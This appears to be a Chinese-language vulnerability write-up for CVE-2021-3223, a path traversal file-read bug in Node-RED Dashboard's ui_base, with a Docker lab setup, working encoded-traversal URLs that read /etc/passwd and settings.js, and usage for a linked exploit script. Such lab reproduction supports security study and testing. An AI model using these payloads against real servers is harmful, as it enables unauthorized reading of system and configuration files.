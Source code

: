 # CVE-2021-3223 Node-RED ui_base 任意文件读取漏洞

## 漏洞概述
Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

由于缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响
Node-RED-Dashboard < 2.26.2

## 环境搭建

漏洞环境
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-3223/Env

运行漏洞环境
```
docker-compose up -d
```

访问`http://127.0.0.1:1880/`，环境运行成功


![1628240880046.png](./img/1628240880046.png)



## 漏洞利用

### POC
```
http://your-ip:1880/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
http://your-ip:1880/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

### EXP
exp脚本
> https://github.com/errorecho/CVEs-Collection/blob/main/CVE-2021-3223/Exp/CVE-2021-3223.py

使用方法
```
python CVE-2021-3223.py http://your-ip:1880 /etc/passwd outputfile
```


![1628241002605.png](./img/1628241002605.png)
